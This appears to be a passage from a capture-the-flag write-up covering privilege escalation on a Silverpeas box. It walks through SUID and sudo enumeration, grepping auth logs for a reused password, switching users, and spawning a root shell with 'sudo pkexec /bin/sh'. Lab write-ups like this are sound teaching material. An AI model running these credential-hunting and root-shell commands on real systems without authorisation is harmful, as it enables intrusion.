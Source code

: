 Now we approach the privilege escalation problem.

Looking for SUID/SGID binaries:
```
find / -perm -u=s -type f 2>/dev/null
```
And SUDO privileges:
```
sudo -l
```
Poor tim, is not able to use sudo commands.

We can try with weak permissions:
```
find / -not -type l -perm -o+w 2>/dev/null
```
No luck.

After searching online, we found that maybe in some logs we can find interesting information.
```
cat /var/log/auth* | grep -i pass
```
We find:
```
tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=******** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
```
We can try the found password to access tyler account.
```
su tyler
password: *********
```

We’re in, but we don't have access to root folder. Anyhow we can now use sudo commands.

Looking again for SUID/SGID binaries:
```
find / -perm -u=s -type f 2>/dev/null
```

We find:
```
pkexec
```
Thanks to:

[GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/)

We are aware that we can gain access to a ```root shell``` by executing a specific command.
```
sudo pkexec /bin/sh
```
Finally, we’ve found the second flag in the root folder.

### Lesson learned:

* Need to focus no more than 30 minutes on the same attack vector (too much focus on port 80, ignoring port 8080)
* Take note of all details and the context (I have taken note only of the username in the enumeration phase and not the name of the product "SilverPeas").
* Search online for the product name or any clues that might indicate possible vulnerabilities.
* Remember to search the log files... always!
